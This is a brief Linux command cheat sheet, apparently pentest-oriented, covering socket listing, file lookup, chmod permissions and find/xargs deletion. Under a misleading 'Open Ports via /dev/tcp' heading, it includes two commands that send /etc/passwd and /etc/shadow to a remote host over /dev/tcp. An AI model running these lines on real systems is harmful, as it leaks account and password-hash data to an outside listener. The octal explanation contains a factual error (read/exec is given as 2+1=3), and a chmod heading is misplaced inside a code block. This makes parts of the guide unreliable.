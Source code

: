 Network Connections \(all, no name resolution\)

```text
watch ss -na
```

Find Files

```text
whereis -b
```

Current Username

```text
who
```

Open Ports via /dev/tcp:

```text
cat /etc/passwd > /dev/tcp/10.10.10.18/443
cat /etc/shadow > /dev/tcp/10.10.10.18/443
chmod - file permissions
```

Remove read \(-r\) from others \(o\)

```text
chmod o-r somefile.txt
```

Add read/write \(+rw\) permissions for user and group \(ug\)

```text
chmod ug+rw somefile.txt
```

Read-only, no execute or write \(=r\) for group & other \(go\)

```text
chmod go=r somefile.txt
```

You can also use the octal representation to set the permissions. Read is 4, write is 2, and execute is 1. The sum of the set bits is the permission \(for example, read/write=4+2=6, read/exec=2+1=3\).

```text
chmod 750 somefile.txt
```

User is 7=4+2+1=rwx, group is 5=4+1=rx, other=none.

Xargs versus Exec Speed: Let’s compare a folder with 1000 files in it.

```text
time find . -type f -name "*.txt" -exec rm {} \;
time find ./foo -type f -name "*.txt" | xargs rm
```

